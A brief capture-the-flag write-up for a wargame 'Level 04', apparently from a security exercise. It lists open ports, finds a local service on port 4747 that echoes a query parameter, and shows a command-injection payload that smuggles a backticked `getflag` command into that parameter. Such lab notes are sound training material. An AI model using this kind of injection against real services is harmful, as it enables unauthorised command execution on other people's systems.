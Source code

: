 # Level 04

Check for open ports:

netstat -tulpn

curl localhost:4747?x=lol prints lol

We need to execute command in the current one

curl localhost:4747?x=\`getflag\`